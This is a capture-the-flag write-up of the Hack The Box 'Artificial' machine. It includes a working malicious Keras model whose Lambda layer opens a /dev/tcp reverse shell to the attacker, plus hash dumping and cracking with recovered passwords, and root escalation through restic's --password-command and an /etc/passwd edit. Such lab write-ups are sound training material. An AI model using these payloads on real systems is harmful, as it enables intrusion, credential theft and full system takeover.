 ```yaml
---
title: HTB Artificial - Writeup
date: 2025-07-25 22:12:00 +0330
categories: [Writeup]
tags: [cve]
description: My writeup of Artificial from Hack The Box 

---
```


![](assets/img/artificial.png)
## - **Recon & Enum**
As always starting off with an Nmap scan
```
$ nmap -sC -sV -oN artificial_htb_nmap --min-rate=1000 artificial.htb
Nmap scan report for artificial.htb (10.10.11.74)
Host is up (0.45s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
After logging in, we can upload `.h5` files which are AI models. There are also a `requirements.txt` which says tensorflow 2.13.1 and a Dockerfile.
First I tried building the docker image and running the container (because my python version does not support tensorflow yet) but I ran out of storage. so I installed `pyenv` and installed python3.8. After a bit of reasearch I found out tensorflow version 2.13 is vulnerable to [CVE-2024-3660](https://markaicode.com/tensorflow-cve-2024-3660-update-data-leak-prevention/), so with that information I tweaked the example code provided in the main page of artificital.htb to get a reverse shell.
```python
import numpy as np
import pandas as pd
import tensorflow as tf
from tensorflow import keras
from tensorflow.keras import layers
import socket
import subprocess

np.random.seed(42)

# Create hourly data for a week
hours = np.arange(0, 24 * 7)
profits = np.random.rand(len(hours)) * 100

# Create a DataFrame
data = pd.DataFrame({
    'hour': hours,
    'profit': profits
})

X = data['hour'].values.reshape(-1, 1)
y = data['profit'].values

def titap(x):
    try:
        __import__('os').system("bash -c '/bin/sh -i >& /dev/tcp/*.*.*.*/1234 0>&1'")
    except:
        pass
    return x

# Build the model

model = keras.Sequential([
    layers.Dense(64, activation='relu'),
    layers.Dense(64, activation='relu'),
    layers.Dense(1),
    layers.Lambda(titap)
])

# Compile the model
model.compile(optimizer='adam', loss='mean_squared_error')

# Train the model
model.fit(X, y, epochs=100, verbose=1)

# Save the model
model.save('profits_model.h5')
```

## - **Foothold**

and after clocking on "View Predictions", we get a shell.
```
listening on [any] 1234 ...
connect to [*.*.*.*] from (UNKNOWN) [10.10.11.74] 41924
/bin/sh: 0: can't access tty; job control turned off
$ python3 -V
Python 3.8.10
$ python3 -c "import pty;pty.spawn('/bin/bash')"
app@artificial:~/app$
```

Checking the `app.py`, I discovered a database and a password `Sup3rS3cr3tKey4rtIfici4L` (which turned out to be useless). from the database I got the hash for user `gael` and some other users.
```
sqlite> SELECT * FROM user;
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
```

I used hashcat to crack the hash
```shell
$ hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
```

```shell
$ hashcat --show hash.txt -m 0                          
c99175974b6e192936d97224638a34f8:mattp005numbertwo
```

## - **User**
and the user flag is ours!
```
gael@artificial:~$ cat user.txt
781a0825*******************4eae0
```

Here we can see ports `5000` and `9898` are localy accessible and also we have some application files in `/opt`.
```
gael@artificial:~$ ss -tuln
Netid    State     Recv-Q    Send-Q         Local Address:Port         Peer Address:Port    Process    
udp      UNCONN    0         0              127.0.0.53%lo:53                0.0.0.0:*                  
tcp      LISTEN    0         2048               127.0.0.1:5000              0.0.0.0:*                  
tcp      LISTEN    0         4096               127.0.0.1:9898              0.0.0.0:*                  
tcp      LISTEN    0         511                  0.0.0.0:80                0.0.0.0:*                  
tcp      LISTEN    0         4096           127.0.0.53%lo:53                0.0.0.0:*                  
tcp      LISTEN    0         128                  0.0.0.0:22                0.0.0.0:*                  
tcp      LISTEN    0         511                     [::]:80                   [::]:*                  
tcp      LISTEN    0         128                     [::]:22                   [::]:*                  
gael@artificial:~$ ls /opt
backrest  config  data  index  keys  locks  snapshots
```

port 5000 was the flask application and 9898 was Backrest V1.7.2. I forwarded the port back to my computer and went to the page and it required login. at first I tried some default usernames with the discovered passwords so far but no luck. inside `/opt/backrest/.config/backrest/` there was a config.json file which most probably included the username nad password but user gael did not have access. after using linpeas I noticed a backfile `/var/backups/backrest_backup.tar.gz` which had the config.json in it with the password hash.
```
gael@artificial:/tmp$ tar -xvf backrest_backup.tar.gz

gael@artificial:/tmp/backrest/.config$ cat backrest/config.json 
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
      }
    ]
  }
}

```

by the looks of the hash, it is base64 encoded. then we crack it with hashcat and log in to the backrest page.
```shell
$ echo JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP | base64 -d
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO   
```

```
hashcat -m 3200 -a 0 -o cracked.txt hash2.txt /usr/share/wordlists/rockyou.txt
```

## - **Root**

Here we can create repositories and after that we can run commands though not normal shell commands, but restic commands! so I went to see what we can do with restic and it's idiotic name.

![](assets/img/artificial_restic.png)

in the help output of restic we can see `backup` and `dump` commands and with those we can read files which we normaly don't have access to, for instance root.txt! but that like cheating and we need that root shell.
![](assets/img/artificial_dump.png)
looking back at the help screen a very juicy looking flag called `--password-command` caught my eye.

```
--password-command command         shell command to obtain the repository password from (default: $RESTIC_PASSWORD_COMMAND)
```

after a bit of struggle, I finally got it to work and made passwd writable with `backup /etc/hosts --password-command "chmod 777 /etc/passwd"`.

```
gael@artificial:/opt/backrest$ echo "my_root::0:0:root:/root:/bin/bash" >> /etc/passwd
gael@artificial:/opt/backrest$ su my_root
root@artificial:/opt/backrest# chmod 644 /etc/passwd
root@artificial:/opt/backrest#
```

![](assets/img/artificial_congrats.png)

Done!
and thanks for reading.